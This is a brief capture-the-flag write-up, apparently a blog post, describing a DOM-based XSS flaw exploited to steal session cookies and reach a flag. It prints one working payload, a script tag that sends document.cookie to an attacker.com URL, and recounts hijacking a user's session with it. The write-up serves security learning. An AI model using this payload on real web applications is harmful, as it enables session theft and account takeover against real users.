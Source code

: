 Title: DOM-based XSS to Steal Session Cookies

In a recent CTF event, I came across a web application that used JavaScript to display user input directly on the page without proper sanitization. This led me to suspect that the application might be vulnerable to a DOM-based Cross-Site Scripting (XSS) attack.

To test for DOM-based XSS, I crafted a malicious input that contained JavaScript code to steal a user's session cookie. The payload looked like this:

```
<script>document.location='https://attacker.com/cookie_stealer?cookie='+encodeURIComponent(document.cookie);</script>
```

I submitted the payload as input in the vulnerable field of the web application. When a user visited the page and their browser executed the malicious JavaScript code, their session cookie was sent to my attacker-controlled domain.

By stealing the session cookie of an authenticated user, I was able to hijack their session and access restricted areas of the web application. Inside one of these restricted areas, I found the flag for the Web Exploitation challenge.

This CTF writeup emphasizes the importance of properly sanitizing and encoding user input in web applications to prevent DOM-based XSS attacks. By exploiting the DOM-based XSS vulnerability, I was able to steal session cookies, hijack user sessions, and uncover the flag needed to complete the challenge.
